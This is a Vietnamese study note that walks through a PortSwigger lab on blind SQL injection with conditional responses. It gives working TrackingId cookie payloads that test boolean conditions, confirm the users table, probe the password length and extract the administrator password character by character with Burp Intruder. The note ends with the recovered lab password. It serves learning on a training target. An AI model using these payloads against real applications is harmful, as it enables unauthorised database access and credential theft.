 I. Blind SQL injection vul<br>
+ app ko phản hồi kết quả của truy vấn SQL or chi tiết lỗi database trong phản hồi của nó
+ UNION attack ko hiệu quả trong trh này<br>

II. Exploiting blind SQL injection by triggering conditional responses<br>
1. Lý thuyết<br>
+ TrackingId cookie khi đc xử lý -> app sẽ báo là có phải ng dùng đã bt hay ko <br>
-> đây là lỗ hổng can khai thác<br>
+ cho phép xác đinh câu trl cho bất kì điều kiện đơn đc tiêm nào và trích xuất từng phần data tại 1 thời điểm (đúng thì phản hồi sai thì ko)<br>

2. Lab: Blind SQL injection with conditional responses<br>
This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.
The results of the SQL query are not returned, and no error messages are displayed. But the application includes a "Welcome back" message in the page if the query returns any rows.
The database contains a different table called users, with columns called username and password. You need to exploit the blind SQL injection
vulnerability to find out the password of the administrator user. To solve the lab, log in as the administrator user.<br>
https://portswigger.net/academy/labs/launch/5aeeac77d52d55cdff3f9a5d86d050c9a77ebfef7657cccb459bee29ad5c3fce?referrer=%2fweb-security%2fsql-injection%2fblind%2flab-conditional-responses<br>

3. Giải<br>
+ B1 xác định TrackingId hoạt động ko: Cookie: TrackingId=cokrQmPGjyNp6yK5; (này có sẵn trong phản hồi rồi) -> trả về Welcome Back
+ B2 check phản hồi khi đk đúng or sai:
<br>Đúng: Cookie: TrackingId=cokrQmPGjyNp6yK5' and 1=1-- -> phản hồi
<br>Sai: Cookie: TrackingId=cokrQmPGjyNp6yK5' and 1=2-- -> ko phản hồi
+ xác định có bảng users ko: Cookie: TrackingId=cokrQmPGjyNp6yK5' and (select 'x' from users limit 1) = 'x'-- -> phản hồi
+ xác định có username 'administrator' ko: Cookie: TrackingId=cokrQmPGjyNp6yK5' and (select 'x' from users where username = 'administrator') = 'x'-- -> phản hồi
+ xác định chiều dài password: Cookie: TrackingId=cokrQmPGjyNp6yK5' and (select 'x' from users where username = 'administrator' and length(password)>1) = 'x'--
+ thử lần lượt đến khi tìm thấy chiều dài phù hợp: 20 (can tìm bằng Intruder)
+ tìm mật khẩu (nhiều kí tự -> xài Burp Intruder):Cookie: TrackingId=cokrQmPGjyNp6yK5' and (select substring(password,1,1) from users where username='administrator')='§a§'-- (trọng tải đánh vào chữ 'a')
+ vào payload add vào danh sách 0-9, a-z, vào cài đặt phần Grep-match sửa thành 'Welcome' và chạy lấy kết quả<br>

![image](https://github.com/bangngoc116/SQL-Injection-/assets/127403046/8c7db2d6-426c-4ed4-876a-86b58ed091bd)<br>

Cookie: TrackingId=cokrQmPGjyNp6yK5' and (select substring(password,2,1) from users where username='administrator')='§a§'-- <br>
-> tiếp tục đến khi tìm đc toàn bộ mật khẩu: pduzuqxql3l3z6bguzec
